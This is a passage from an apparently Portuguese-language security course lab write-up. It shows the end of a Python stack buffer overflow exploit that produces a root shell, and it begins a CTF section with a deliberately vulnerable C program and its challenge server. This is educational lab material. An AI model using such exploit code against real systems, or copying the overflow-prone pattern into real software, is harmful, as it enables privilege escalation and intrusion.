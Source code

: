 ```py

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
for x in range(26):    # (212 - 112) / 4 + 1 = 26
	content[offset + x * 4 :offset + L + x * 4] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```
Executando `./exploit.py` uma vez mais, seguido de `./stack-L2`, conseguimos mais uma vez ter acesso à *root shell*.

![](img/lab05/root_shell_l2.png)

---

# CTF

Neste CTF, temos dois desafios para resolver, ambos sobre *buffer overflows*.

## Desafio 1

Este desafio encontra-se disponível em `nc ctf-fsi.fe.up.pt 4003`, onde encontramos o servidor a correr o seguinte programa:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%40s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");
    
    FILE *fd = fopen(meme_file,"r");
    
    while(1){
        if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }


    fflush(stdout);
    
    return 0;
}
```